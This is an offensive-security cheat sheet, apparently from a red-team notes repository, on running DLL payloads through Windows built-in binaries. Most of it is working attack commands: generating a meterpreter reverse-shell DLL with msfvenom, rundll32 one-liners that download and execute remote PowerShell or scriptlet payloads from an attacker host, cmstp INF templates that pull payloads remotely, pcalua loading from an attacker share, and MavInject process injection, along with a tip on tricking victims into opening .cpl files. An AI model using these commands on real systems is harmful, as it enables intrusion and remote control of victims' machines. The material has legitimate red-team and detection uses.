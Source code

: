 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-land
  - T1085
  - T1191
  - windows
---
```

# DLL Execution

## 01 - Generate Payloads

### 1.1 - `msfvenom`

Generate a DLL payload then execute it with `StartW` entry point.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f dll -o payload.dll
```

### 1.2 - Empire

TODO: Fill this info

```
(Empire) > usestager windows/dll
```

## 02 - Execute Payload

> [!TIP] CPL Payloads
> You can actually social engineer the victim to double click the `.cpl` to establish connection.

### `rundll32.exe`

```
C:\> rundll32.exe payload.dll,StartW
```

To execute the **Control Panel Items** (`.cpl`) payload with entry point either `Control_RunDLL` or `Control_RunDLLAsuser`.

```
C:\> rundll32.exe shell32.dll,Control_RunDLL payload.cpl

C:\> rundll32.exe shell32.dll,Control_RunDLLAsuser payload.cpl
```

A custom payload can be compiled using the `.cpl` Windows features.

```
C:\> rundll32.exe payload.dll,Control_RunDLL
```

Execute a JavaScript that runs a PowerShell script that is downloaded from a remote web site.

```
C:\> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http[s]://<IP>[:PORT]/payload.ps1')");
```

Execute a JavaScript that runs `calc.exe` and then kills the `rundll32.exe` process that was started.

```
C:\> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").Run("calc.exe", 0, true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

Execute a scriptlet payload from a web server.

```
C:\> rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http[s]://<IP>[:PORT]/payload.sct")"
```

### `regasm.exe`

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe
```

Loads the target .DLL file and executes the RegisterClass function.

```
C:\> regasm.exe AllTheThingsx64.dll
```

Loads the target .DLL file and executes the UnRegisterClass function.

```
C:\> regasm.exe /U AllTheThingsx64.dll
```

### `regsvcs.exe`

```
C:\> regsvcs.exe AllTheThingsx64.dll
```

### `regsvr32.exe`

Execute DLL payload.

```
C:\> regsvr32.exe /s payload.dll
```

### `msiexec.exe`

Execute the DLL payload  (calls `DLLRegisterServer`).

```
C:\> msiexec.exe /y "C:\path\to\payload.dll"
```

Unregisters the target DLL.

```
C:\> msiexec.exe /z "C:\path\to\payload.dll"
```

### `odbcconf.exe`

```
C:\> odbcconf.exe /a {regsvr.exe C:\path\to\payload.dll}
```

### `cmstp.exe`

Fileless scriptlet payload template

```
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall_SingleUser]
UnRegisterOCXs=UnRegisterOCXSection

[UnRegisterOCXSection]
%11%\scrobj.dll,NI,http[s]://<IP>[:PORT]/payload.sct

[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="Yay"
ShortSvcName="Yay"
```

DLL dropper payload template.

```
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection

[RegisterOCXSection]
C:\path\to\payload.dll
\\<IP>\payload.dll

[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="Pentestlab"
ShortSvcName="Pentestlab"
```

Execute payload.

```
C:\> cmstp.exe /ni /s payload.inf
```

Execute fileless payload.

```
C:\> cmstp.exe /ni /s http[s]://<IP>[:PORT]/payload.inf
```

### `control.exe`

```
C:\> control.exe .\reflective_payload_loader.dll

C:\> control.exe .\reflective_payload_loader.cpl
```

### `pcalua.exe`

```
C:\> pcalua.exe -a .\payload.exe

C:\> pcalua.exe -a \\<attacker_IP>\<share_name>\payload.dll

C:\> pcalua.exe -a .\payload.cpl
```

### `MavInject.exe`

Inject DLL payload in a process ID.

```
C:\> MavInject.exe <pid> /INJECTRUNNING C:\path\to\payload.dll
```

---
## References

### Backlinks

- [[DLL Injection]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Windows/Code Execution/DotNET]]

- [[HTA]]

- [[Scriptlet]]

- [[Advpack]]

- [[Pcalua]]

### LOLBAS

- [LOLBAS: Regasm](https://lolbas-project.github.io/lolbas/Binaries/Regasm/)

- [LOLBAS: Regsvcs](https://lolbas-project.github.io/lolbas/Binaries/Regsvcs/)

- [LOLBAS: Msiexec](https://lolbas-project.github.io/lolbas/Binaries/Msiexec/)

- [LOLBAS: Odbcconf](https://lolbas-project.github.io/lolbas/Binaries/Odbcconf/)

- [LOLBAS: Control](https://lolbas-project.github.io/lolbas/Binaries/Control/)

- [LOLBAS: Mavinject](https://lolbas-project.github.io/lolbas/Binaries/Mavinject/)

- [LOLBAS: Setupapi](https://lolbas-project.github.io/lolbas/Libraries/Setupapi/)

- [LOLBAS: leadvpack](https://lolbas-project.github.io/lolbas/Libraries/Ieadvpack/)

- [LOLBAS: Certoc](https://lolbas-project.github.io/lolbas/Binaries/Certoc)

### Red Team Notes

- [Red Team Notes: Control Panel Item](https://www.ired.team/offensive-security/code-execution/t1196-control-panel-item-code-execution)

- [Red Team Notes: Forcing `iexplore.exe` to Load a Malicious DLL via COM Abuse](https://www.ired.team/offensive-security/code-execution/forcing-iexplore.exe-to-load-a-malicious-dll-via-com-abuse)

### DMCXBlue

- [DMCXBlue: Rundll32](https://dmcxblue.gitbook.io/red-team-notes/execution/untitled)

### 0xsp

- [0xsp: handy techniques to bypass environment restrictions](https://0xsp.com/offensive/handy-techniques-to-bypass-environment-restrictions/)